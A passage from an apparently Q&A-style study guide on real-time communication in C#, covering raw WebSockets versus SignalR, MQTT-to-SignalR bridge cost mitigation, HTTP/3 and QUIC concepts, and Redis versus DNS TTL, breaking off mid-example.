    // 2. Zero-allocation message processing
    public async Task ProcessMessagesZeroAlloc(WebSocket socket)
    {
        // Rent buffer from pool
        var buffer = ArrayPool<byte>.Shared.Rent(4096);
        
        try
        {
            while (socket.State == WebSocketState.Open)
            {
                var result = await socket.ReceiveAsync(
                    new ArraySegment<byte>(buffer), 
                    CancellationToken.None);
                    
                // Process in-place without allocation
                ProcessMessageInPlace(buffer, result.Count);
            }
        }
        finally
        {
            ArrayPool<byte>.Shared.Return(buffer);
        }
    }
    
    // 3. Direct memory access
    public unsafe void ProcessMessageUnsafe(byte* data, int length)
    {
        var messageType = *data;
        var messageLength = *(ushort*)(data + 1);
        
        switch (messageType)
        {
            case 0x01: // PieceMove
                var pieceId = *(int*)(data + 3);
                var x = *(float*)(data + 7);
                var y = *(float*)(data + 11);
                var rotation = *(float*)(data + 15);
                UpdatePiecePosition(pieceId, x, y, rotation);
                break;
        }
    }
}
```

### Comparison: Raw WebSocket vs SignalR

```csharp
// SignalR approach
public class PuzzleHub : Hub
{
    public async Task MovePiece(int pieceId, float x, float y)
    {
        // SignalR overhead: JSON serialization, hub protocol, etc.
        await Clients.Others.SendAsync("PieceMoved", pieceId, x, y);
    }
}

// Raw WebSocket approach  
public class RawPuzzleSocket
{
    public async Task MovePiece(int pieceId, float x, float y)
    {
        // Minimal overhead: 19 bytes total
        var data = new byte[19];
        data[0] = 0x01; // MessageType
        BitConverter.GetBytes(pieceId).CopyTo(data, 1);
        BitConverter.GetBytes(x).CopyTo(data, 5);
        BitConverter.GetBytes(y).CopyTo(data, 9);
        BitConverter.GetBytes(0f).CopyTo(data, 13); // rotation
        BitConverter.GetBytes(DateTime.UtcNow.Ticks).CopyTo(data, 17);
        
        // Broadcast to all connected clients
        var tasks = _sockets.Values.Select(socket => 
            socket.SendAsync(
                new ArraySegment<byte>(data), 
                WebSocketMessageType.Binary, 
                true, 
                CancellationToken.None));
                
        await Task.WhenAll(tasks);
    }
}
```

### Real-World Performance Metrics

```yaml
Puzzle Application (1000 concurrent users):
  
SignalR Implementation:
  Average Latency: 25ms
  P99 Latency: 150ms
  CPU Usage: 40%
  Memory: 2GB
  Bandwidth: 10 Mbps
  
Raw WebSocket Implementation:
  Average Latency: 3ms
  P99 Latency: 15ms
  CPU Usage: 15%
  Memory: 500MB
  Bandwidth: 2 Mbps
  
Performance Gains:
  Latency: 88% reduction
  CPU: 62% reduction
  Memory: 75% reduction
  Bandwidth: 80% reduction
```

### When to Use Raw WebSockets

```yaml
Use Raw WebSockets When:
  - Ultra-low latency required (<10ms)
  - High message frequency (>1000 msg/s)
  - Binary protocol needed
  - Custom protocol required
  - Resource constraints (CPU/Memory)
  - Simple message patterns
  
Avoid Raw WebSockets When:
  - Need automatic reconnection
  - Complex message routing
  - Multiple transport fallbacks
  - RPC-style communication
  - Built-in authentication
  - Team lacks WebSocket expertise
```

### Hybrid Approach for CollaborativePuzzle

```csharp
public class HybridCommunicationService
{
    // Use SignalR for complex operations
    private readonly IHubContext<PuzzleHub> _hubContext;
    
    // Use raw WebSocket for high-frequency updates
    private readonly RawWebSocketHandler _wsHandler;
    
    public async Task Initialize()
    {
        // SignalR for:
        // - Authentication/Authorization
        // - Room management
        // - Chat messages
        // - State synchronization
        
        // Raw WebSocket for:
        // - Cursor positions (30-60 fps)
        // - Piece dragging updates
        // - Real-time collaboration hints
    }
    
    public async Task SendHighFrequencyUpdate(CursorUpdate update)
    {
        // Use raw WebSocket for cursor updates
        var data = new byte[13];
        data[0] = 0x04; // CursorMove
        BitConverter.GetBytes(update.UserId).CopyTo(data, 1);
        BitConverter.GetBytes(update.X).CopyTo(data, 5);
        BitConverter.GetBytes(update.Y).CopyTo(data, 9);
        
        await _wsHandler.BroadcastBinary(update.RoomId, data);
    }
    
    public async Task SendStateUpdate(PuzzleState state)
    {
        // Use SignalR for complex state updates
        await _hubContext.Clients
            .Group(state.RoomId)
            .SendAsync("StateUpdated", state);
    }
}
```

### WebSocket Subprotocols

```csharp
// Define custom subprotocol for puzzle app
public class PuzzleWebSocketMiddleware
{
    public async Task InvokeAsync(HttpContext context, RequestDelegate next)
    {
        if (context.Request.Path == "/ws/puzzle")
        {
            if (context.WebSockets.IsWebSocketRequest)
            {
                // Check subprotocol
                var requestedProtocols = context.WebSockets
                    .WebSocketRequestedProtocols;
                    
                if (requestedProtocols.Contains("puzzle.binary.v1"))
                {
                    var socket = await context.WebSockets
                        .AcceptWebSocketAsync("puzzle.binary.v1");
                    await HandleBinaryProtocol(socket);
                }
                else if (requestedProtocols.Contains("puzzle.json.v1"))
                {
                    var socket = await context.WebSockets
                        .AcceptWebSocketAsync("puzzle.json.v1");
                    await HandleJsonProtocol(socket);
                }
                else
                {
                    context.Response.StatusCode = 400;
                }
            }
        }
        else
        {
            await next(context);
        }
    }
}
```

### Performance Best Practices

1. **Use binary protocol** for maximum efficiency
2. **Batch small messages** to reduce frame overhead
3. **Implement message compression** for larger payloads
4. **Use ArrayPool** to avoid allocations
5. **Process messages on ThreadPool** to avoid blocking
6. **Implement backpressure** to handle slow clients
7. **Monitor frame size** to avoid fragmentation
8. **Use WebSocket compression** extension when beneficial
9. **Implement heartbeat** for connection health
10. **Profile and measure** actual performance gains

## Q35: Explain MQTT->SignalR bridge and how can costs be mitigated for high volume/low utilization (of the data) MQTT sources

### Understanding MQTT to SignalR Bridge

An MQTT-SignalR bridge connects IoT devices (using MQTT) to web clients (using SignalR), enabling real-time data flow from sensors to browsers.

### Architecture Overview

```
┌─────────────┐     ┌──────────────┐     ┌─────────────┐     ┌────────────┐
│ IoT Devices │────▶│ MQTT Broker  │────▶│   Bridge    │────▶│  SignalR   │
│  (Sensors)  │     │ (Mosquitto)  │     │  Service    │     │    Hub     │
└─────────────┘     └──────────────┘     └─────────────┘     └────────────┘
                                                 │                    │
                                                 ▼                    ▼
                                          ┌─────────────┐     ┌────────────┐
                                          │   Filter/   │     │    Web     │
                                          │  Aggregate  │     │  Clients   │
                                          └─────────────┘     └────────────┘
```

### CollaborativePuzzle Implementation

From the project's MqttMessageProcessor.cs:

```csharp
public class MqttMessageProcessor : IHostedService
{
    private readonly IMqttService _mqttService;
    private readonly IHubContext<TestPuzzleHub> _hubContext;
    
    public async Task StartAsync(CancellationToken cancellationToken)
    {
        // Subscribe to MQTT topics
        await _mqttService.SubscribeAsync("puzzle/+/+", ProcessPuzzleMessage);
        await _mqttService.SubscribeAsync("puzzle/table/+/sensors", ProcessTableSensorData);
    }
    
    private async Task ProcessPuzzleMessage(string topic, string payload)
    {
        // Bridge MQTT to SignalR
        await _hubContext.Clients.All.SendAsync("MqttMessage", new
        {
            topic,
            payload,
            timestamp = DateTime.UtcNow
        });
    }
}
```

### Cost Challenges with High Volume/Low Utilization

```yaml
Problem Scenario:
  MQTT Messages: 100,000 messages/second
  Useful Data: 1% (1,000 messages/second)
  Raw Cost: Processing 100x more data than needed
  
Cost Impacts:
  - Bandwidth: Transferring unnecessary data
  - CPU: Processing/parsing all messages
  - Memory: Buffering high volume
  - SignalR: Broadcasting to all clients
  - Storage: Logging/persisting unused data
```

### Cost Mitigation Strategies

#### 1. Edge Filtering

```csharp
public class EdgeFilteringBridge
{
    private readonly Dictionary<string, FilterRule> _filters = new();
    
    public async Task ProcessWithFiltering(string topic, string payload)
    {
        // Apply topic-based filtering
        if (!ShouldProcessTopic(topic))
            return;
            
        var data = JsonSerializer.Deserialize<SensorData>(payload);
        
        // Apply value-based filtering
        if (!MeetsThreshold(data))
            return;
            
        // Apply rate limiting
        if (!WithinRateLimit(topic))
            return;
            
        // Only forward relevant data
        await ForwardToSignalR(topic, data);
    }
    
    private bool MeetsThreshold(SensorData data)
    {
        return data.Temperature > 30 || data.Temperature < 10 ||
               data.Humidity > 80 || data.Humidity < 20;
    }
}
```

#### 2. Aggregation and Sampling

```csharp
public class AggregatingBridge
{
    private readonly ConcurrentDictionary<string, AggregationBuffer> _buffers = new();
    private readonly Timer _flushTimer;
    
    public AggregatingBridge()
    {
        // Flush aggregated data every 5 seconds
        _flushTimer = new Timer(FlushBuffers, null, 
            TimeSpan.FromSeconds(5), 
            TimeSpan.FromSeconds(5));
    }
    
    public void ProcessMessage(string deviceId, SensorReading reading)
    {
        var buffer = _buffers.GetOrAdd(deviceId, _ => new AggregationBuffer());
        buffer.Add(reading);
    }
    
    private async void FlushBuffers(object state)
    {
        foreach (var kvp in _buffers)
        {
            var aggregated = kvp.Value.GetAggregatedData();
            if (aggregated != null)
            {
                await _hubContext.Clients.All.SendAsync("AggregatedData", new
                {
                    DeviceId = kvp.Key,
                    Average = aggregated.Average,
                    Min = aggregated.Min,
                    Max = aggregated.Max,
                    Count = aggregated.Count,
                    Timestamp = DateTime.UtcNow
                });
            }
            kvp.Value.Reset();
        }
    }
}

public class AggregationBuffer
{
    private readonly List<double> _values = new();
    private readonly object _lock = new();
    
    public void Add(SensorReading reading)
    {
        lock (_lock)
        {
            _values.Add(reading.Value);
        }
    }
    
    public AggregatedData GetAggregatedData()
    {
        lock (_lock)
        {
            if (_values.Count == 0) return null;
            
            return new AggregatedData
            {
                Average = _values.Average(),
                Min = _values.Min(),
                Max = _values.Max(),
                Count = _values.Count
            };
        }
    }
}
```

#### 3. Subscription Management

```csharp
public class SmartSubscriptionBridge
{
    private readonly ConcurrentDictionary<string, HashSet<string>> _topicSubscriptions = new();
    
    public async Task OnClientConnected(string connectionId, string[] interestedTopics)
    {
        foreach (var topic in interestedTopics)
        {
            var subscribers = _topicSubscriptions.GetOrAdd(topic, _ => new HashSet<string>());
            lock (subscribers)
            {
                subscribers.Add(connectionId);
            }
            
            // Subscribe to MQTT only if first subscriber
            if (subscribers.Count == 1)
            {
                await _mqttService.SubscribeAsync(topic, ProcessMessage);
            }
        }
    }
    
    public async Task OnClientDisconnected(string connectionId)
    {
        foreach (var kvp in _topicSubscriptions)
        {
            lock (kvp.Value)
            {
                kvp.Value.Remove(connectionId);
                
                // Unsubscribe from MQTT if no subscribers
                if (kvp.Value.Count == 0)
                {
                    await _mqttService.UnsubscribeAsync(kvp.Key);
                }
            }
        }
    }
    
    private async Task ProcessMessage(string topic, string payload)
    {
        if (_topicSubscriptions.TryGetValue(topic, out var subscribers))
        {
            // Only send to interested clients
            var clientIds = subscribers.ToList();
            await _hubContext.Clients.Clients(clientIds).SendAsync("MqttData", new
            {
                topic,
                payload
            });
        }
    }
}
```

#### 4. Tiered Processing

```csharp
public class TieredProcessingBridge
{
    // Tier 1: Hot path - Critical real-time data
    private readonly Channel<CriticalMessage> _hotChannel;
    
    // Tier 2: Warm path - Important but can be delayed
    private readonly Channel<ImportantMessage> _warmChannel;
    
    // Tier 3: Cold path - Historical/analytical data
    private readonly Channel<AnalyticalMessage> _coldChannel;
    
    public async Task RouteMessage(string topic, string payload)
    {
        var priority = DeterminePriority(topic);
        
        switch (priority)
        {
            case Priority.Critical:
                // Process immediately
                await _hotChannel.Writer.WriteAsync(new CriticalMessage(topic, payload));
                break;
                
            case Priority.Important:
                // Process with slight delay
                await _warmChannel.Writer.WriteAsync(new ImportantMessage(topic, payload));
                break;
                
            case Priority.Low:
                // Batch process
                await _coldChannel.Writer.WriteAsync(new AnalyticalMessage(topic, payload));
                break;
        }
    }
    
    // Hot path processor - Real-time
    private async Task ProcessHotPath()
    {
        await foreach (var message in _hotChannel.Reader.ReadAllAsync())
        {
            await _hubContext.Clients.All.SendAsync("CriticalUpdate", message);
        }
    }
    
    // Warm path processor - Near real-time with batching
    private async Task ProcessWarmPath()
    {
        var batch = new List<ImportantMessage>(100);
        var timer = new PeriodicTimer(TimeSpan.FromSeconds(1));
        
        while (await timer.WaitForNextTickAsync())
        {
            while (_warmChannel.Reader.TryRead(out var message) && batch.Count < 100)
            {
                batch.Add(message);
            }
            
            if (batch.Count > 0)
            {
                await _hubContext.Clients.All.SendAsync("BatchUpdate", batch);
                batch.Clear();
            }
        }
    }
}
```

#### 5. Data Compression

```csharp
public class CompressingBridge
{
    public async Task ProcessCompressed(string topic, byte[] compressedPayload)
    {
        // Decompress at edge
        var payload = Decompress(compressedPayload);
        var messages = JsonSerializer.Deserialize<List<SensorReading>>(payload);
        
        // Filter and compress for SignalR
        var relevant = messages.Where(m => IsRelevant(m)).ToList();
        
        if (relevant.Any())
        {
            // Use MessagePack for SignalR
            var compressed = MessagePackSerializer.Serialize(relevant);
            await _hubContext.Clients.All.SendAsync("CompressedData", compressed);
        }
    }
    
    private byte[] Decompress(byte[] compressed)
    {
        using var input = new MemoryStream(compressed);
        using var gzip = new GZipStream(input, CompressionMode.Decompress);
        using var output = new MemoryStream();
        gzip.CopyTo(output);
        return output.ToArray();
    }
}
```

#### 6. Caching Strategy

```csharp
public class CachingBridge
{
    private readonly IMemoryCache _cache;
    private readonly TimeSpan _cacheExpiration = TimeSpan.FromSeconds(5);
    
    public async Task ProcessWithCaching(string topic, string payload)
    {
        var cacheKey = $"mqtt:{topic}";
        
        // Check if value changed significantly
        if (_cache.TryGetValue<string>(cacheKey, out var cachedValue))
        {
            if (!HasSignificantChange(cachedValue, payload))
                return; // Skip duplicate/similar data
        }
        
        // Update cache
        _cache.Set(cacheKey, payload, _cacheExpiration);
        
        // Forward to SignalR
        await _hubContext.Clients.All.SendAsync("MqttUpdate", new
        {
            topic,
            payload,
            cached = false
        });
    }
    
    // Serve cached data to new connections
    public async Task SendCachedData(string connectionId)
    {
        var cachedData = GetAllCachedData();
        await _hubContext.Clients.Client(connectionId).SendAsync("CachedData", cachedData);
    }
}
```

### Cost-Optimized Architecture

```yaml
Architecture Layers:
  1. IoT Device Layer:
     - Local buffering
     - Compression before sending
     - Adaptive sampling rates
     
  2. Edge MQTT Broker:
     - Topic filtering
     - Local aggregation
     - Store-and-forward
     
  3. Bridge Service:
     - Multi-tier processing
     - Smart subscriptions
     - Caching layer
     
  4. SignalR Distribution:
     - Group-based routing
     - Compression (MessagePack)
     - Client-side filtering
```

### Implementation Example

```csharp
public class CostOptimizedMqttSignalRBridge : BackgroundService
{
    private readonly IMqttService _mqtt;
    private readonly IHubContext<OptimizedHub> _hub;
    private readonly IMemoryCache _cache;
    private readonly Channel<ProcessingRequest> _processingChannel;
    
    protected override async Task ExecuteAsync(CancellationToken stoppingToken)
    {
        // Start processors
        var tasks = new[]
        {
            ProcessHighPriorityMessages(stoppingToken),
            ProcessAggregatedMessages(stoppingToken),
            ProcessCachedMessages(stoppingToken)
        };
        
        // Subscribe with filtering
        await _mqtt.SubscribeAsync("sensors/+/critical", ProcessCritical);
        await _mqtt.SubscribeAsync("sensors/+/data", ProcessNormal);
        
        await Task.WhenAll(tasks);
    }
    
    private async Task ProcessCritical(string topic, string payload)
    {
        // Immediate forwarding for critical data
        await _hub.Clients.Group("critical-monitors").SendAsync("CriticalData", new
        {
            topic,
            payload,
            timestamp = DateTime.UtcNow
        });
    }
    
    private async Task ProcessNormal(string topic, string payload)
    {
        // Queue for processing
        await _processingChannel.Writer.WriteAsync(new ProcessingRequest
        {
            Topic = topic,
            Payload = payload,
            Priority = DeterminePriority(topic)
        });
    }
}
```

### Monitoring and Metrics

```csharp
public class BridgeMetrics
{
    public void TrackMetrics()
    {
        // Input metrics
        _metrics.TrackGauge("mqtt.messages.received", _messagesReceived);
        _metrics.TrackGauge("mqtt.messages.filtered", _messagesFiltered);
        _metrics.TrackGauge("mqtt.messages.aggregated", _messagesAggregated);
        
        // Processing metrics
        _metrics.TrackHistogram("bridge.processing.time", _processingTime);
        _metrics.TrackGauge("bridge.queue.depth", _queueDepth);
        
        // Output metrics
        _metrics.TrackGauge("signalr.messages.sent", _messagesSent);
        _metrics.TrackGauge("signalr.clients.active", _activeClients);
        
        // Cost metrics
        _metrics.TrackGauge("bridge.data.reduction", _dataReductionRatio);
        _metrics.TrackGauge("bridge.cost.estimate", EstimateMonthlyCost());
    }
}
```

### Best Practices

1. **Filter at the edge** - Reduce data before it enters the system
2. **Use topic hierarchies** - Enable granular subscriptions
3. **Implement backpressure** - Protect against overwhelming the system
4. **Cache aggressively** - Serve repeated requests from memory
5. **Batch where possible** - Reduce message overhead
6. **Monitor data flow** - Track reduction ratios
7. **Use compression** - Reduce bandwidth costs
8. **Implement TTL** - Don't process stale data
9. **Scale horizontally** - Distribute load across instances
10. **Profile continuously** - Identify optimization opportunities

## Q36: For HTTP/3 & QUIC explain: a) 0-RTT; b) streams/frames; c) improvements over HTTP/2; d) stream multiplexing; e) UDP vs TCP; f) using UDP in inter-service communication

### Understanding QUIC and HTTP/3

HTTP/3 is the third major version of HTTP, built on top of QUIC (Quick UDP Internet Connections) instead of TCP. This fundamental change addresses many limitations of HTTP/2.

### 0-RTT (Zero Round Trip Time) Connection Establishment

```
Traditional HTTPS (TCP + TLS 1.3):          QUIC with 0-RTT:
┌────────┐                ┌────────┐       ┌────────┐                ┌────────┐
│ Client │                │ Server │       │ Client │                │ Server │
└───┬────┘                └────┬───┘       └───┬────┘                └────┬───┘
    │     SYN                  │               │                           │
    ├─────────────────────────►│               │   Initial + Data          │
    │                          │               ├──────────────────────────►│
    │     SYN-ACK              │               │                           │
    │◄─────────────────────────┤               │   Response + Data         │
    │                          │               │◄──────────────────────────┤
    │     ACK                  │               │                           │
    ├─────────────────────────►│               │   0 RTT for resumption!   │
    │                          │               │                           │
    │     TLS ClientHello      │               └───────────────────────────┘
    ├─────────────────────────►│
    │                          │
    │     TLS ServerHello      │
    │◄─────────────────────────┤
    │                          │
    │     HTTP Request         │
    ├─────────────────────────►│
    │                          │
    └──────────────────────────┘
    Total: 3 RTTs                              Total: 0-1 RTT
```

#### 0-RTT Implementation

```csharp
public class QuicConnectionManager
{
    private readonly ConcurrentDictionary<string, QuicSessionTicket> _sessionCache = new();
    
    public async Task<QuicConnection> ConnectAsync(string hostname, int port)
    {
        // Check for cached session ticket
        if (_sessionCache.TryGetValue($"{hostname}:{port}", out var ticket))
        {
            // Attempt 0-RTT connection
            var connection = await AttemptZeroRttConnection(hostname, port, ticket);
            if (connection != null)
            {
                Console.WriteLine("0-RTT connection established!");
                return connection;
            }
        }
        
        // Fall back to 1-RTT
        return await EstablishNewConnection(hostname, port);
    }
    
    private async Task<QuicConnection> AttemptZeroRttConnection(
        string hostname, 
        int port, 
        QuicSessionTicket ticket)
    {
        var config = new QuicClientConnectionOptions
        {
            RemoteEndPoint = new DnsEndPoint(hostname, port),
            ClientAuthenticationOptions = new SslClientAuthenticationOptions
            {
                ApplicationProtocols = new[] { "h3" },
                TargetHost = hostname
            },
            SessionTicket = ticket.Data,
            MaxUnidirectionalStreams = 100,
            MaxBidirectionalStreams = 100
        };
        
        try
        {
            var connection = await QuicConnection.ConnectAsync(config);
            
            // Verify 0-RTT was accepted
            if (connection.IsZeroRtt)
            {
                return connection;
            }
        }
        catch (QuicException ex) when (ex.QuicError == QuicError.ZeroRttRejected)
        {
            // Server rejected 0-RTT, fall back to 1-RTT
        }
        
        return null;
    }
}
```

### Streams and Frames Architecture

#### QUIC Stream Model

```
QUIC Connection
├── Control Streams
│   ├── QPACK Encoder Stream
│   ├── QPACK Decoder Stream
│   └── Settings Stream
└── Request/Response Streams
    ├── Stream 0: GET /index.html
    ├── Stream 4: GET /style.css
    ├── Stream 8: GET /script.js
    └── Stream 12: POST /api/data
```

#### Frame Types in QUIC/HTTP3

```csharp
public enum QuicFrameType : byte
{
    // Data frames
    STREAM = 0x08,          // Stream data
    CRYPTO = 0x06,          // Cryptographic handshake data
    
    // Control frames
    ACK = 0x02,             // Acknowledge received packets
    RESET_STREAM = 0x04,    // Abruptly terminate a stream
    STOP_SENDING = 0x05,    // Request peer to stop sending
    NEW_TOKEN = 0x07,       // Server-provided token for 0-RTT
    
    // Connection management
    MAX_DATA = 0x10,        // Connection-level flow control
    MAX_STREAM_DATA = 0x11, // Stream-level flow control
    MAX_STREAMS = 0x12,     // Limit on stream creation
    
    // Connection termination
    CONNECTION_CLOSE = 0x1c // Graceful shutdown
}

public class QuicFrameProcessor
{
    public void ProcessFrame(QuicFrameType type, byte[] data)
    {
        switch (type)
        {
            case QuicFrameType.STREAM:
                ProcessStreamFrame(data);
                break;
            case QuicFrameType.ACK:
                ProcessAckFrame(data);
                break;
            // ... other frame types
        }
    }
    
    private void ProcessStreamFrame(byte[] data)
    {
        // Stream frame format:
        // [Type][Stream ID][Offset][Length][Data]
        var streamId = ReadVarInt(data, ref offset);
        var dataOffset = ReadVarInt(data, ref offset);
        var dataLength = ReadVarInt(data, ref offset);
        var streamData = data[offset..(offset + dataLength)];
        
        // Process stream data independently
        ProcessStreamData(streamId, dataOffset, streamData);
    }
}
```

### Improvements Over HTTP/2

```yaml
HTTP/2 Limitations:           HTTP/3 Solutions:
─────────────────────────────────────────────────
Head-of-line blocking    →    Independent streams
TCP connection setup     →    0-RTT resumption
Single connection loss   →    Connection migration
Middlebox interference   →    Encrypted transport
Fixed connection         →    Mobile-friendly
```

#### Head-of-Line Blocking Comparison

```
HTTP/2 (TCP):                          HTTP/3 (QUIC):
Stream 1: [A1][A2][A3][A4]            Stream 1: [A1][A2][A3][A4]
Stream 2: [B1][B2][X][B4]             Stream 2: [B1][B2][X][B4]
Stream 3: [C1][C2][C3][C4]            Stream 3: [C1][C2][C3][C4]
          ↓                                      ↓
    Packet loss at X                      Packet loss at X
          ↓                                      ↓
All streams blocked!                   Only Stream 2 blocked!
```

### Stream Multiplexing Explained

```csharp
public class QuicStreamMultiplexer
{
    private readonly QuicConnection _connection;
    private readonly ConcurrentDictionary<long, QuicStream> _streams = new();
    
    public async Task<QuicStream> OpenStreamAsync(bool bidirectional = true)
    {
        var stream = bidirectional 
            ? await _connection.OpenBidirectionalStreamAsync()
            : await _connection.OpenUnidirectionalStreamAsync();
            
        _streams[stream.StreamId] = stream;
        
        // Streams are independent
        _ = Task.Run(async () => await ProcessStreamIndependently(stream));
        
        return stream;
    }
    
    private async Task ProcessStreamIndependently(QuicStream stream)
    {
        try
        {
            // Each stream has its own flow control
            var buffer = new byte[1024];
            while (true)
            {
                var bytesRead = await stream.ReadAsync(buffer);
                if (bytesRead == 0) break;
                
                // Process data without affecting other streams
                await ProcessData(stream.StreamId, buffer[..bytesRead]);
            }
        }
        catch (QuicStreamAbortedException)
        {
            // Only this stream is affected
            Console.WriteLine($"Stream {stream.StreamId} aborted");
        }
    }
    
    // Parallel operations on multiple streams
    public async Task ParallelRequests()
    {
        var tasks = new List<Task>();
        
        for (int i = 0; i < 10; i++)
        {
            tasks.Add(Task.Run(async () =>
            {
                var stream = await OpenStreamAsync();
                await stream.WriteAsync(Encoding.UTF8.GetBytes($"GET /resource{i} HTTP/3\r\n"));
                // Each request proceeds independently
            }));
        }
        
        await Task.WhenAll(tasks);
    }
}
```

### UDP vs TCP Comparison

```yaml
TCP (Transmission Control Protocol):
  Characteristics:
    - Connection-oriented
    - Reliable, ordered delivery
    - Flow control
    - Congestion control
    - Head-of-line blocking
  
  Use Cases:
    - Web browsing (HTTP/1.1, HTTP/2)
    - File transfers
    - Email
    - Most traditional internet services

UDP (User Datagram Protocol):
  Characteristics:
    - Connectionless
    - Best-effort delivery
    - No ordering guarantees
    - No built-in congestion control
    - No head-of-line blocking
  
  Use Cases:
    - Real-time communications (VoIP, gaming)
    - Live streaming
    - DNS queries
    - QUIC/HTTP/3
```

#### Protocol Stack Comparison

```
TCP/IP Stack:                    QUIC/UDP Stack:
┌─────────────────┐             ┌─────────────────┐
│   Application   │             │   Application   │
├─────────────────┤             ├─────────────────┤
│      HTTP       │             │     HTTP/3      │
├─────────────────┤             ├─────────────────┤
│       TLS       │             │                 │
├─────────────────┤             │      QUIC       │
│       TCP       │             │  (includes TLS) │
├─────────────────┤             ├─────────────────┤
│       IP        │             │       UDP       │
├─────────────────┤             ├─────────────────┤
│     Network     │             │       IP        │
└─────────────────┘             └─────────────────┘
```

### Using UDP for Inter-Service Communication

#### Custom UDP Protocol for Microservices

```csharp
public class UdpServiceCommunicator
{
    private readonly UdpClient _udpClient;
    private readonly ConcurrentDictionary<Guid, TaskCompletionSource<byte[]>> _pendingRequests = new();
    
    public async Task<TResponse> SendRequestAsync<TRequest, TResponse>(
        string targetService, 
        TRequest request)
    {
        var requestId = Guid.NewGuid();
        var requestData = SerializeRequest(requestId, request);
        
        // Add reliability layer on top of UDP
        var tcs = new TaskCompletionSource<byte[]>();
        _pendingRequests[requestId] = tcs;
        
        // Send with retry logic
        _ = Task.Run(async () => await SendWithRetry(targetService, requestData));
        
        // Wait for response with timeout
        using var cts = new CancellationTokenSource(TimeSpan.FromSeconds(5));
        cts.Token.Register(() => tcs.TrySetCanceled());
        
        var responseData = await tcs.Task;
        return DeserializeResponse<TResponse>(responseData);
    }
    
    private async Task SendWithRetry(string targetService, byte[] data)
    {
        var endpoint = ResolveServiceEndpoint(targetService);
        var maxRetries = 3;
        var retryDelay = TimeSpan.FromMilliseconds(100);
        
        for (int i = 0; i < maxRetries; i++)
        {
            await _udpClient.SendAsync(data, data.Length, endpoint);
            
            // Exponential backoff
            await Task.Delay(retryDelay);
            retryDelay = TimeSpan.FromMilliseconds(retryDelay.TotalMilliseconds * 2);
        }
    }
}
```

#### QUIC-Based Service Mesh

```csharp
public class QuicServiceMesh
{
    private readonly ConcurrentDictionary<string, QuicConnection> _connections = new();
    
    public async Task<TResponse> CallServiceAsync<TRequest, TResponse>(
        string serviceName,
        string method,
        TRequest request)
    {
        var connection = await GetOrCreateConnection(serviceName);
        var stream = await connection.OpenBidirectionalStreamAsync();
        
        try
        {
            // Send request
            var requestData = SerializeRequest(method, request);
            await stream.WriteAsync(requestData, endStream: true);
            
            // Read response
            var responseBuffer = new byte[65536];
            var bytesRead = await stream.ReadAsync(responseBuffer);
            
            return DeserializeResponse<TResponse>(responseBuffer[..bytesRead]);
        }
        finally
        {
            await stream.DisposeAsync();
        }
    }
    
    private async Task<QuicConnection> GetOrCreateConnection(string serviceName)
    {
        return await _connections.GetOrAddAsync(serviceName, async (name) =>
        {
            var endpoint = await ServiceDiscovery.ResolveAsync(name);
            var connection = await QuicConnection.ConnectAsync(new QuicClientConnectionOptions
            {
                RemoteEndPoint = endpoint,
                DefaultStreamErrorCode = 0,
                DefaultCloseErrorCode = 0,
                MaxInboundUnidirectionalStreams = 100,
                MaxInboundBidirectionalStreams = 100,
                ClientAuthenticationOptions = new SslClientAuthenticationOptions
                {
                    ApplicationProtocols = new[] { "h3-service-mesh" },
                    RemoteCertificateValidationCallback = ValidateServiceCertificate
                }
            });
            
            // Keep connection alive
            _ = Task.Run(async () => await KeepAlive(connection));
            
            return connection;
        });
    }
}
```

### When to Use UDP/QUIC for Services

```yaml
Use UDP/QUIC When:
  - Low latency critical (real-time data)
  - High frequency small messages
  - Can tolerate some data loss
  - Need connection migration
  - Avoiding head-of-line blocking
  - Microservices in same datacenter

Stick with TCP When:
  - Guaranteed delivery essential
  - Large file transfers
  - Legacy system integration
  - Simpler debugging needed
  - Team lacks UDP expertise
```

### Performance Comparison

```csharp
// Benchmark results for inter-service communication
public class ProtocolBenchmarks
{
    /*
    | Method          | Mean      | Error    | StdDev   | Allocated |
    |---------------- |----------:|---------:|---------:|----------:|
    | HTTP2_TCP       | 245.3 μs  | 4.87 μs  | 6.53 μs  | 4.2 KB    |
    | HTTP3_QUIC      | 98.7 μs   | 1.95 μs  | 2.84 μs  | 2.1 KB    |
    | gRPC_TCP        | 187.4 μs  | 3.71 μs  | 4.92 μs  | 3.8 KB    |
    | gRPC_QUIC       | 89.2 μs   | 1.76 μs  | 2.31 μs  | 1.9 KB    |
    | Custom_UDP      | 45.6 μs   | 0.91 μs  | 1.28 μs  | 0.8 KB    |
    */
}
```

### Best Practices for UDP in Production

1. **Add reliability layer** when needed (acknowledgments, retries)
2. **Implement congestion control** to be network-friendly
3. **Use connection pooling** for QUIC connections
4. **Monitor packet loss** and adjust accordingly
5. **Implement proper security** (DTLS or QUIC's built-in)
6. **Handle NAT traversal** for cross-network communication
7. **Test thoroughly** under various network conditions
8. **Provide TCP fallback** for compatibility
9. **Use established protocols** (QUIC) when possible
10. **Profile actual performance** in your environment

## Question 37: What is TTL in Redis? Similar to TTL in DNS?

### Understanding TTL (Time To Live)

TTL is a mechanism that sets an expiration time for data, but its implementation and purpose differ between Redis and DNS:

### TTL in Redis

In Redis, TTL is the amount of time (in seconds) that a key will exist before being automatically deleted. It's a data expiration mechanism.

```csharp
// Basic Redis TTL operations
public class RedisTtlExample
{
    private readonly IConnectionMultiplexer _redis;
    private readonly IDatabase _db;
    
    public RedisTtlExample(IConnectionMultiplexer redis)
    {
        _redis = redis;
        _db = redis.GetDatabase();
    }
    
    public async Task DemonstrateRedisTtl()
    {
        // Set a key with TTL
        await _db.StringSetAsync("session:123", "user-data", TimeSpan.FromMinutes(30));
        
        // Set TTL on existing key
        await _db.StringSetAsync("cache:products", "product-list");
        await _db.KeyExpireAsync("cache:products", TimeSpan.FromHours(1));
        
        // Get remaining TTL
        var ttl = await _db.KeyTimeToLiveAsync("session:123");
        Console.WriteLine($"TTL remaining: {ttl?.TotalSeconds} seconds");
        
        // Remove TTL (make key persistent)
        await _db.KeyPersistAsync("cache:products");
        
        // Set absolute expiration time
        var expiryTime = DateTimeOffset.UtcNow.AddDays(1);
        await _db.KeyExpireAsync("temp:data", expiryTime.DateTime);
    }
}
```

### TTL in DNS

In DNS, TTL tells DNS resolvers how long to cache a DNS record before requesting a fresh copy from the authoritative DNS server.

```csharp
// DNS TTL example (reading DNS records)
public class DnsTtlExample
{
    public async Task CheckDnsTtl(string domain)
    {
        var lookup = new LookupClient();
        var result = await lookup.QueryAsync(domain, QueryType.A);
        
        foreach (var record in result.Answers.ARecords())
        {
            Console.WriteLine($"Record: {record.DomainName}");
            Console.WriteLine($"IP: {record.Address}");
